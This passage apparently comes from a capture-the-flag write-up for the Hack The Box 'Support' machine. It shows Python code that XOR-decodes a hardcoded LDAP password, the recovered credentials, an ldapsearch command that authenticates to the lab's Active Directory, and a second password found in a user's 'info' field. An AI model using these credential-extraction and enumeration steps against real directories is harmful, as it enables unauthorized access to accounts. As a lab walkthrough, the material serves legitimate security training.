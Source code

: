 ### Python Decryption

```python
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"

res = ''
for e, k in zip(enc_password, cycle(key)):
    res += chr(e ^ k ^ 223)

print(res)
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold">
        <i class="fas fa-key mr-2 text-green-500"></i>
        LDAP password: <code>nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz</code>
    </p>
</div>


## 🧩 Phase 4 — LDAP Connection

Configure hosts:

```bash
echo '10.129.178.26 support.htb' | sudo tee -a /etc/hosts
```

LDAP connection:

```bash
ldapsearch -h support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*"
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        LDAP connection successful! Active Directory enumeration possible.
    </p>
</div>


## 🧍 Phase 5 — Support Account Discovery

In CN=Users, the support object contains:

```
info: Ironside47pleasure40Watchful
memberOf: Remote Management Users
```
